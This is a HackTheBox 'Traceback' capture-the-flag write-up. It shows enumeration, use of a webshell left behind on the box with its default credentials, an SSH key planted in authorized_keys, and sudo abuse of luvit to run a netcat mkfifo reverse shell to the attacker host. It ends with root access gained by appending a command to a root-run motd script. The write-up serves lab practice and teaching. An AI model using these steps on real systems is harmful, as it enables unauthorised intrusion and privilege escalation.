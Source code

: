 ```yaml
---
title: Writeup - HackTheBox - Traceback
published: true
---
```

![](Pictures/Traceback/logo.png)

Someone did hack this machine before and left a webshell on the
webserver. I use this webshell to get access to the webadmin user
account. From the user webadmin I could escalate to the sysadmin
user account through a lua script. The sysadmin can write to the
motd, wich runs as root. By taking advantage of that I was able to
get root access.

## [](#header-2)Enumeration

### [](#header-3)Nmap
I started with an nmap scan to get a list of running services on
the machine.

```
Nmap -sC -sV -oA nmap/nmap 10.10.10.181
```

![](Pictures/Traceback/nmap.png)

There is only two ports open, 22 and 80. I was looking at the
website that the webserver is hosting and noticed that this server
probably have been hacked.

![](Pictures/Traceback/website1.png)

The hacker left a note that he left a backdoor. By looking at the
source code I got some more information.

```
<center>
<h1>This site has been owned</h1>
<h2>I have left a backdoor for all the net. FREE
INTERNETZZZ</h2>
<h3> - Xh4H - </h3>
<!--Some of the best web shells that you might need ;)-->
</center>
```

With this information I just did a google search.

```
google <!--Some of the best web shells that you might need ;)-->
```

It got me to a GitHub page with different webshells.

![](Pictures/Traceback/webshells.png)

I saved the names of all the webshells into a file, list.txt.

![](Pictures/Traceback/list.png)


## [](#header-2)Exploitation

### [](#header-3)Gobuster
With the use of gobuster together with the list I got the
following result:

```
gobuster dir -w list.txt -u http://10.10.10.181 -x php
```

![](Pictures/Traceback/gobuster.png)

The tool got a hit on smevk.php. By taking a look at the following
site http://10.10.10.181/smevk.php I was presented with this:

![](Pictures/Traceback/website2.png)

I needed some credentials to be able to log in. I went back to the
GitHub page and looked through some of the shell code and found
the default login credentials.

```
$deface_url = 'http://pastebin.com/raw.php?i=FHfxsFGT';
url here(pastebin).
//deface
$UserName = "admin"; //Your UserName here.
$auth_pass = "admin"; //Your Password.
//Change Shell Theme here//
$color = "#8B008B"; //Fonts color modify here.
$Theme = '#8B008B';
accoriding to your choice. //Change border-color
$TabsColor = '#0E5061'; //Change tabs color here.
```

### [](#header-3)The access
I made the assumption that the default login credentials had not
been changed, and I was right, I was able to login.

![](Pictures/Traceback/loggedin.png)

From here I got an interface with access to the under laying
system as the user webadmin. By looking around I figured out that
I can access the webadmin’s home folder. In the folder
/home/webadmin/.ssh/ I put my own ssh pub key from my Kali system
into the file authorized_keys.

```
ssh-keygen -t rsa
```

![](Pictures/Traceback/pub.png)

### [](#header-3)User access as webadmin
I was now able to login to the system as webadmin without a
password.

```
ssh webadmin@10.10.10.181
```

![](Pictures/Traceback/shell1.png)

Here is more tracks from the former hacker.
I started with some enumeration of the user webadmin and found a
note in the home folder, note.txt.

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

### [](#header-3)Lua scripting
Lua is a scripting language.
I didn’t know where look for this tool, so I did some more
enumeration. When I was looking if I had some sudo privileges on
the system I found this:

```
sudo -l
```

![](Pictures/Traceback/sudo-l.png)

This tells me that I can run luvit in the user sysadmin’s
homefolder as the user sysadmin.

![](Pictures/Traceback/lua-poc.png)

I had never written anything with Lua before but I was able to do
a quick test of my privileges as sysadmin. I put the following
code in a file, script.lua, in the /tmp folder and then I ran
luvit as the user sysadmin.

```
os.execute('ls -la /home/sysadmin/> /tmp/ls')
```

![](Pictures/Traceback/lua1.png)

This worked and I got a listing of the content in sysadmin’s home
folder. My next step was to edit the script that it would give me
a user shell as sysadmin.

### [](#header-3)User access as sysadmin
I found out that netcat was installed on the system and that got
me the idea of putting a reverse shell into the Lua script, using
netcat.

```
os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1337 >/tmp/f')
```

By doing this I could get a shell back.
On my Kali machine I put up a listener with the same port as in
the script.

```
nc -lvnp 1337
```

I ran the Lua script in the same was as before and I got a shell
back as the user sysadmin.
I was now able to get the user.txt flag.

![](Pictures/Traceback/user.png)

### [](#header-3)Root access
I did some enumeration and figured out by looking at running
processes that root updates the motd and I wonderd why. I took a
look inside the folder /etc/update-motd.d and found that the user
sysadmin can edit the motd files.

![](Pictures/Traceback/ls-motd.png)

I put the following line of code inside of the 00-header file:

```
echo "cat /root/root.txt" >> /etc/update-motd.d/00-header
```

When I logged back into the system with the user webadmin I got
the root.txt flag.

![](Pictures/Traceback/root.png)

Here the root.txt flag is blurred out.

